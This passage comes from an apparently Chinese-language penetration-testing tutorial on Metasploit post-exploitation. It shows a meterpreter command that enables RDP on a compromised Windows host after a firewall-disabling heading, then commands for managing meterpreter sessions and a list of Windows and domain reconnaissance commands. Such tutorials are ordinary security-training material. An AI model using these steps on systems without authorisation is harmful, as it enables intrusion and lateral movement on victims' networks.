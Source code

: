 关闭防火墙

```bash
meterpreter >  run post/windows/manage/enable_rdp
```

[![](assets/1701827767-769d05bf4fd346c15731147532a0bfb8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205085031-4a4c6d66-9308-1.png)

```bash
1. sessions -i
2. #查看已经获取的会话
3. sessions -i 1
4. #连接到指定序号的 meterpreter 会话已继续利用
```

[![](assets/1701827767-7c3cac263078b7374382892b027b8077.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191306-c4659dfe-9103-1.png)

## 信息搜集：

### 基础信息搜集：

如遇 shell 乱码问题可输入`chcp 65001`缓解部分问题

```bash
输入 ashelp 查看本地命令
net user 查看本地账户
whoami 当前用户权限
ipconfig -all Windows IP 配置
systeminfo  #信息
tasklist #查询进程及服务
ipconfig /all #.域信息
netstat -an #查看端口状态
net view
net view /domain #查看当前登录域与用户信息
```
